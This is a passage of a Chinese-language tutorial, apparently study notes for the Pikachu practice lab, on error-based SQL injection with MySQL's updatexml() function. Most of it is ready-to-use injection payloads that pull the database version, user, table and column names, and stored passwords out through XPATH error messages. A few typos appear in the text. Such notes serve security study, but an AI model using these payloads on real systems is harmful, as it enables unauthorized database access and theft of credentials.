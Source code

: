 <br>

##### updataxml(xml_target,xpath_expr,new_xml)  原理：

该函数用于对选中的xml片段进行更新

其中xpath_expr是需要更新的xml路径

如果该参数不符合xpath路径语法会报错，错误信息会显示出错误路径的内容

测试语句：

```
select username,password from users where id=1 and updatexml(1,concat(0x7c,(select @@version)),1);
```

报错：```ERROR 1105 (HY000): XPATH syntax error: '|5.5.53'```

①爆数据库版本信息：

```sql
a' and updatexml(1,concat(0x7e,(SELECT@@version),0x7e),1)--+
```

②爆数据库当前用户：

```sql
a' and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)#
```

③爆数据库：

```sql
a' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)#
```

④爆表：

```sql
a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#
```

⑤爆字段：

```sql
a'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1),0x7e),1)#
```

```sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

⑥爆字段内容：

```sql
a' and updatexml(1,concat(0x7e,(select password from userslimit 0,1),0x7e),1)#
```

<br>

##### extractvalue(xml_frag,xpath_expr)  原理
